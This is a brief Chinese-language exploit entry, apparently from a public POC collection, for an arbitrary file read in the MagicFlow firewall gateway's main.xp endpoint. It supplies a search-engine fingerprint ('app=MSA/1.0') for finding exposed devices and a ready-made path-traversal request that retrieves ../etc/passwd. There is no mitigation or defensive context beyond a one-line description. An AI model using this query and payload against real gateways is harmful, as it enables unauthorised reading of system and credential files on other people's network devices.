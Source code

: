 # MagicFlow 防火墙网关 main.xp 任意文件读取漏洞

## 漏洞描述

MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件

## 漏洞影响

<a-checkbox checked>MagicFlow 防火墙网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="MSA/1.0"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210609181301702.png)



构造POC



```plain
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```



![img](../../../.vuepress/public/img/image-20210609182245927.png)